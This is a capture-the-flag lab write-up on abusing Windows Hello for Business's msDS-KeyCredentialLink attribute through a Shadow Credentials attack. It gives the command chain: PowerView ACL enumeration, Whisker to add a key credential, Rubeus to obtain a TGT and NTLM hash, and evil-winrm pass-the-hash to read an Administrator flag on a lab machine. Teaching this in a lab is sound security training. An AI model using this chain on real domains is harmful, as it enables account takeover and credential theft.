



# Jingle Bells, Shadow Spells

## Notes
With Windows Hello for Business (WHfB), users on the Active Directory domain can access the AD using a PIN or biometrics connected to a pair of cryptographic keys: public and private. The msDS-KeyCredentialLink is an attribute used by the Domain Controller to store the public key in WHfB for enrolling a new user device.
Here's the procedure to store a new pair of certificates with WHfB:
- Trusted Platform Module (TPM) public-private key pair generation: The TPM creates a public-private key pair for the user's account when they enrol. It's crucial to remember that the private key never leaves the TPM and is never disclosed.
- Client certificate request: The client initiates a certificate request to receive a trustworthy certificate. The organisation's certificate issuing authority (CA) receives this request and provides a valid certificate.
- Key storage: The user account's msDS-KeyCredentialLink attribute will be set.
Authentication Process:
- Authorisation: The Domain Controller decrypts the client's pre-authentication data using the raw public key stored in the msDS-KeyCredentialLink attribute of the user's account.
- Certificate generation: The certificate is created for the user by the Domain Controller and can be sent back to the client.
- Authentication: After that, the client can log in to the Active Directory domain using the certificate.

## Solution
- Hit "Start Machine" and open the Split Screen View or connect through RDP.
- What is the hash of the vulnerable user? 
Run the following command to get the vulnerable user.
```bash
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```



Run the following command to get the Rubeus command:
```bash
.\Whisker.exe add /target:<VULN USER>
```



Run the suggested Rubeus command to get the Kerberos TGT and the NTLM hash of the vulnerable user.



- What is the content of flag.txt on the Administrator Desktop?
The NTLM hash can be passed with evil-winr for example:
```bash
evil-winrm -i 10.10.219.89 -u <VULN USER> -H <HASH>
```

Then browse the path C:\Users\Administrator\Desktop to find the flag.
